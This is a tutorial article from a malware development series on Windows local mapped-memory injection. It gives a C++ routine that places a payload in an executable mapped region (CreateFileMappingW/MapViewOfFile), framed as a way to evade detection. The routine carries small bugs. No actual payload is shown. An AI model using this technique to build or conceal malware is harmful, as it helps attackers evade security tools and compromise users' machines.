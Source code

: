```yaml
---
title: "Malware Development: Crafting Digital Chaos 0x9: Private vs Mapped memory"
classes: wide
header:
  teaser:  /assets/images/law.png
ribbon: black
description: "Article 10 of Malware Development series"
categories:
  - Malware Development
tags:
  - Malware Development
  - Injection
  - Memory
  - WinAPI
  - C++
toc: true
---
```


# Private vs Mapped memory

Usually and for the wide use of API calls such as `VirtualAlloc()` and `VirtualAllocEx()` and as the memory allocation type of these API calls is Private memory, the detection is becoming very high and thus it is mandatory to find an evasion technique.

Another type of Injection can be Mapping Injection, or in other words injecting malicious code in `Mapped` memory sections, and this way we can avoid using the API calls we mentioned above and use API calls such as `CreateFileMapping` and `MapViewOfFile`.

# Payload Injection in Mapped regions

## CreateFileMapping 

This API call return a handle to a file object, and the contents of the file on disk are mapped to a memory region.

```cpp
HANDLE CreateFileMappingW(
  [in]           HANDLE                hFile,
  [in, optional] LPSECURITY_ATTRIBUTES lpFileMappingAttributes,
  [in]           DWORD                 flProtect,
  [in]           DWORD                 dwMaximumSizeHigh,
  [in]           DWORD                 dwMaximumSizeLow,
  [in, optional] LPCWSTR               lpName
);
```

### Important Parameters

`[in] hFile`

A handle to the file from which to create a file mapping object.

`[in] flProtect`

Specifies the page protection of the file mapping object. All mapped views of the object must be compatible with this protection.

We usually use `PAGE_EXECUTE_READWRITE` here.

`[in] dwMaximumSizeLow`

The low-order  **DWORD**  of the maximum size of the file mapping object.

## MapViewofFile

This API call maps a view of a file mapping into the address space of a calling process.

```cpp
LPVOID MapViewOfFile(
  [in] HANDLE hFileMappingObject,
  [in] DWORD  dwDesiredAccess,
  [in] DWORD  dwFileOffsetHigh,
  [in] DWORD  dwFileOffsetLow,
  [in] SIZE_T dwNumberOfBytesToMap
);
```

### Important parameters

`[in] hFileMappingObject`

A handle to a file mapping object. The  [CreateFileMapping](https://learn.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createfilemappinga)  and  [OpenFileMapping](https://learn.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-openfilemappinga)  functions return this handle

`[in] dwDesiredAccess`

The type of access to a file mapping object, which determines the page protection of the pages. 

We usually use **FILE_MAP_EXECUTE** and **FILE_MAP_WRITE** because we obviously need a writeable and executable memory region.

`[in] dwNumberOfBytesToMap`

The number of bytes of a file mapping to map to the view

# Performing Injection to a Mapped memory

Here is the function that we will be using to perform the injection

```cpp
BOOL LocalMapping(IN PBYTE pPayload, IN size_t pPayloadSize, OUT PVOID pAddress) {

    HANDLE hFile = NULL;
    PVOID pMapAddress = NULL;


    hFile = CreateFileMappingW(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, pPayloadSize, NULL);

    if (hFile == NULL) {
        printf("CreateFileMapping failed with error %d", GetLastError());
        CloseHandle(hFile);
        return 0;
    }

    pMapAddress = MapViewOfFile(hFile, FILE_MAP_WRITE | FILE_MAP_EXECUTE, NULL, NULL, pPayloadSize);

    if (pMapAddress == NULL) {

        printf("MapViewofFile failed with error %d", GetLastError());
        CloseHandle(pMapAddress);
        return 0;
    }

    memcpy(pMapAddress, pPayload, pPayloadSize);
    pAddress = pMapAddress;
    return 1;
}
```

The code above implements what is called ``local mapped memory injection`` by creating an executable and writable memory region and then mapping it into the process's address space 

Then copying the payload into this mapped memory. here `CreateFileMappingW` is used to create a memory-mapped file object and `MapViewOfFile` to map this object into memory with `PAGE_EXECUTE_READWRITE` permissions. The payload is then copied into the allocated memory using `memcpy`.

# Executing

Lets execute and examine the memory regions after copying the payload.

We set a breakpoint after the `memcpy`.

![P0](/assets/images/malware-development/10-0png)

And we can check the memory region type also by using Process Hacker.

![P1](/assets/images/malware-development/10-0png)

As we can see, the memory is Mapped not Private, which helps us in improving our evasion technique and appearing more legitimate.
